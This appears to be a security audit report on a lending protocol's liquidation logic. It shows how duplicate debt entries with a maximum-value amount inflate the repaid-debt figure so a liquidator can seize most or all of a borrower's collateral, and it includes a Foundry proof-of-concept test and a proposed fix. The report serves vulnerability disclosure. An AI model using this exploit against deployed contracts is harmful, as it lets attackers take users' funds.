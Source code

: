 Custom Turquoise Bird

High

# Liquidator can seize the whole collateral or collateral up to 200% of debt value during liquidation

### Summary

Incorrect assumption in `RiskModule._validateSeizedAssetValue` function opens up the possibility for user to lose all of the collateral when Liquidator liquidates the unhealthy position.

### Root Cause

The `debtRepaidValue` in [`RiskModule._validateSeizedAssetValue`](https://github.com/sherlock-audit/2024-08-sentiment-v2/blob/main/protocol-v2/src/RiskModule.sol#L136-L145) can be inflated by passing specific `debtData` parameters during `PositionManager.liquidate`.

This is possible due to 2 reasons:
1. Multiple debt data entries for the same poolId can be passed
2. `type(uint256).max` can be used that indicates the whole debt should be repaid.

If in debt data the following values are passed:
```solidity
        DebtData[] memory debts = new DebtData[](2);
        debts[0] = DebtData({ poolId: poolId, amt: pool.getBorrowsOf(poolId, position) - 1 });
        debts[1] = DebtData({ poolId: poolId, amt: type(uint256).max });
```
then the `debtRepaidValue` will be inflated close to 200%.

### Internal pre-conditions

1. User's position has to be unhealthy

### External pre-conditions

_No response_

### Attack Path

1. User deposits collateral and borrows assets.
2. Liquidator monitors the position and liquidates the position with the following `debtData` and `assetData`:
```md
debtData = [max borrow - 1 wei, max borrow] = 199.99...% of total borrowed (but when being repaid, 100% is repaid instead)
assetData = ltv > 50% ? user's whole collateral : collateral equal to 200% of the debt value
```
3. Liquidator successfully repays 100% of user's debt and receives more in reward than anticipated.

### Impact

User suffers a bigger loss during liquidation than anticipated, liquidator gains more reward than anticipated.

The loss for user depends on the average LTV value and liquidation discount
- if LTV 50%-98%, user will lose all of the collateral.
- if LTV 10%-50%, user will lose collateral equal to 200% of the debt value

### PoC

Add the following test code under `test` folder and run
```shell
with logs:
forge test --mc "LiquidationAuditTest" -vv

without logs:
forge test --mc "LiquidationAuditTest"
```

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.24;

import { BaseTest } from "../BaseTest.t.sol";
import "forge-std/console2.sol";

import { MockERC20 } from "../mocks/MockERC20.sol";
import { Pool } from "src/Pool.sol";
import { PositionManager } from "src/PositionManager.sol";
import { Action, AssetData, DebtData } from "src/PositionManager.sol";
import { RiskEngine } from "src/RiskEngine.sol";
import { RiskModule } from "src/RiskModule.sol";
import { FixedPriceOracle } from "src/oracle/FixedPriceOracle.sol";

contract LiquidationAuditTest is BaseTest {
    Pool pool;
    address position;
    RiskEngine riskEngine;
    PositionManager positionManager;
    address public liquidator = makeAddr("liquidator");

    function setUp() public override {
        super.setUp();

        pool = protocol.pool();
        riskEngine = protocol.riskEngine();
        positionManager = protocol.positionManager();

        FixedPriceOracle oneEthOracle = new FixedPriceOracle(1e18);

        vm.startPrank(protocolOwner);
        // For simplicity, we set the price of all assets to 1 ETH
        riskEngine.setOracle(address(asset1), address(oneEthOracle));
        riskEngine.setOracle(address(asset2), address(oneEthOracle));
        vm.stopPrank();

        vm.startPrank(poolOwner);
        // Setting 80% LTV
        riskEngine.requestLtvUpdate(fixedRatePool, address(asset2), 0.8e18);
        riskEngine.acceptLtvUpdate(fixedRatePool, address(asset2));
        vm.stopPrank();

        asset1.mint(lender, 100e18);
        asset2.mint(user, 10e18);

        vm.startPrank(lender);
        asset1.approve(address(pool), 100e18);
        pool.deposit(fixedRatePool, 100e18, lender);
        vm.stopPrank();
    }

    function testAudit() public {
        vm.startPrank(user);
        asset2.approve(address(positionManager), 2e18);

        // User deposits 2 asset2, borrows 1 asset1
        Action[] memory actions = new Action[](4);
        (position, actions[0]) = newPosition(user, bytes32(uint256(0x123456789)));
        actions[1] = deposit(address(asset2), 2e18);
        actions[2] = addToken(address(asset2));
        actions[3] = borrow(fixedRatePool, 1e18);
        positionManager.processBatch(position, actions);
        vm.stopPrank();

        (uint256 totalAssetValue, uint256 totalDebtValue, uint256 minReqAssetValue) = riskEngine.getRiskData(position);

        // Asset value = 2
        // Debt value = 1
        // Min req asset value = 1 / 0.8 = 1.25
        assertEq(totalAssetValue, 2e18);
        assertEq(totalDebtValue, 1e18);
        assertEq(minReqAssetValue, 1.25e18);

        // Change asset2 price to 0.6 ETH
        // This will make the user's position unhealthy (totalAssetValue = 1.2)
        FixedPriceOracle newAsset2Price = new FixedPriceOracle(0.6e18);
        vm.prank(protocolOwner);
        riskEngine.setOracle(address(asset2), address(newAsset2Price));
        assertFalse(riskEngine.isPositionHealthy(position));

        (totalAssetValue, totalDebtValue, minReqAssetValue) = riskEngine.getRiskData(position);

        // Here is the important exploit point:
        //
        // Liquidator will use the following DebtData - [max - 1, max borrow]
        //
        // This will cause the following to happen:
        // Inside the RiskModule._validateSeizedAssetValue, the debtRepaidValue will be
        // (max - 1) + max (1) = 1.999999... ETH, because the _validateSeizedAssetValue functions
        // assumes no duplicate debt is being provided.
        //
        // Because of this liquidator can manipulate the debtRepaidValue to be greater than the actual
        // user's debt, which will allow the liquidator to seize more collateral than they should be able to.
        DebtData[] memory debts = new DebtData[](2);
        debts[0] = DebtData({ poolId: fixedRatePool, amt: pool.getBorrowsOf(fixedRatePool, position) - 1 });
        debts[1] = DebtData({ poolId: fixedRatePool, amt: type(uint256).max });

        uint256 userCollateralBalance = asset2.balanceOf(position);
        uint256 oldUserCollateralBalance = userCollateralBalance;
        uint256 liquidatorCollateralBalance = asset2.balanceOf(liquidator);
        console2.log("User's collateral balance                        ", userCollateralBalance);
        console2.log("Liquidator's collateral balance                  ", liquidatorCollateralBalance);
        console2.log("");

        // Because of the issue above, liquidator can seize the entire collateral of user
        AssetData[] memory assets = new AssetData[](1);
        assets[0] = AssetData({ asset: address(asset2), amt: userCollateralBalance });

        // The max value liquidator should be able to seize:
        // - Liquidation discount = 20% (from Test Deploy params)
        // - maxAmount = 1e18 (user's debt)
        //
        // maxSeizedValue = maxAmount * 1e18 / (1e18 - liquidationDiscount) = 1.25e18

        asset1.mint(liquidator, 10e18);
        uint256 liquidatorsAssetBalance = asset1.balanceOf(liquidator);
        vm.startPrank(liquidator);
        asset1.approve(address(positionManager), userCollateralBalance);
        positionManager.liquidate(position, debts, assets);
        vm.stopPrank();
        console2.log(
            "Liquidator paid                                  ", liquidatorsAssetBalance - asset1.balanceOf(liquidator)
        );
        console2.log("");

        userCollateralBalance = asset2.balanceOf(position);
        liquidatorCollateralBalance = asset2.balanceOf(liquidator);
        console2.log("User's collateral balance after liquidation      ", userCollateralBalance);
        console2.log("Liquidator's collateral balance after liquidation", liquidatorCollateralBalance);

        // Expect that user has 0 collateral left, and liquidator has seized all the collateral
        assertEq(userCollateralBalance, 0);
        assertEq(liquidatorCollateralBalance, oldUserCollateralBalance);
    }
}
```

### Mitigation

I would recommend to remove the possibility to set `type(uint256).max` as `DebtData.amt`
This change would prevent the possibility to inflate the `debtRepaidValue` in `RiskModule._validateSeizedAssetValue`
